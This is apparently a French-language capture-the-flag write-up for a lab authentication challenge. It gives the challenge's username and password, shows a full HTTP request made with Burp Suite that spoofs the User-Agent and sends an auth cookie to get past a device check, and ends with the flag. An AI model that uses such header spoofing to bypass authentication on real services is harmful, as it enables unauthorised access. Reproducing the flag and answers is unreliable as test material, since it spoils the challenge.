 # Solution
Une fois qu'on a le username et le password, on peut les mettre dans le login form pour s'authentifier :) </br>
#### ``LEGO-us3rn4m3-5b1706:LEGO-p4ssw0rd-f72669`` </br>
<img src="https://github.com/user-attachments/assets/f009dc4b-b589-4c00-9994-b184b7ee85f6" alt="Alt Text" width="600" height="400">  </br></br>
Ewwwww, je dois m'authentifier en tant que iPhonescrub???? NOOOOOOOOOOOOOOOOO ok well lets use Burpy to see what I can do (BurpSuite). </br></br>
<img src="https://github.com/user-attachments/assets/39aaee72-c5cd-420e-a61d-0e625d4c97dd" alt="Alt Text" width="800" height="400">  </br></br>
Ok donc on a besoin du cookie auth= et user-agent. </br>
Modifions le user-agent pour qu'il soit "User-Agent: iPhone10 iOS/15.6" </br>
(En fait si on le fait de cette facon, on va voir que si on essaie d'envoyer par Burpsuite, Tailwind va comme reset le payload donc honnêtement, j'ai disable le domain de tailwing sur le Network tab pis voilà ahahaha) </br></br>
```
GET /ok HTTP/2
Host: auth10x.chals.ageei.org
Cookie: auth=5b1706f72669
Cache-Control: max-age=0
Sec-Ch-Ua: "iPhone";v="15.6"
Sec-Ch-Ua-Mobile: ?1
Sec-Ch-Ua-Platform: "iOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: iPhone10 iOS/15.6
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://auth10x.chals.ageei.org/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
``` </br>
<img src="https://github.com/user-attachments/assets/f548b99c-f2ef-4d8c-9c71-e140486874aa" alt="Alt Text" width="300" height="300">  </br></br>

Flag: LEGO-us3R-4g3nt-e4d73c
